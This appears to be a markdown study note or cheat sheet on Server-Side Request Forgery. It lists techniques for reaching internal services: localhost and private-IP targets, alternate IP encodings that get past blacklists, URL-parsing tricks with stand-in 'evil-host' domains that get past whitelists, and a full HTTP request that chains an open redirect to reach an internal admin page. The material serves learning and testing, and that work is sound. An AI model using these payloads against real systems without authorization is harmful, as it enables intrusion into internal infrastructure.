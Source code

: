 ### Server-Side Request Forgery

**any url parameter try ssrf**

cause the server to make a connection to **internal-only** services within the organization's infrastructure

- **SSRF attacks against the server itself**

  alter url parameter to `http://localhost`  this may allow functions only allowed for normal user

- **SSRF attacks against other back-end systems**

  alter url parameter to `http://192.168.0.x`  using intruder to scan back-end systems that are not reachable by user *These systems often have non-routable private IP addresses*

- **SSRF with blacklist-based input filters**

  - alter ip representation to 

    ```
    hex IP
    octal IP
    127.1 
    127.0.0.1
    0177.0.0.1
    0x7f.0.0.1
    127.0.1
    127.1
    2130706433
    017700000001
    0x7f000001
    ```

    this work because of : inet_ntop, inet_pton - convert IPv4 and IPv6 addresses between binary and text form

  - Registering your own domain name that resolves to 127.0.0.1. You can use `spoofed.burpcollaborator.net` for this purpose.

  - Obfuscating blocked strings using URL encoding or case variation like encode first letter from admin

- **SSRF with whitelist-based input filters**

  - embed credentials in a URL before the hostname `https://expected-host@evil-host`
  - use the `#` character to indicate a URL fragment `https://expected-host#evil-host` or`https://expected-host#@evil-host`
  - leverage the DNS naming hierarchy `https://expected-host.evil-host`
  - URL-encode characters to confuse the URL-parsing code
  - MIX ALL ABOVE TOGETHER

- **Bypassing SSRF filters via open redirection**

  `/product/nextProduct?currentProductId=6&path=http://evil-user.net`

  returns a redirection to:

  `http://evil-user.net`

  You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

  ```http
  POST /product/stock HTTP/1.0
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 118
  
  stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
  ```

  This SSRF exploit works because the application first validates that the supplied stockAPI URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.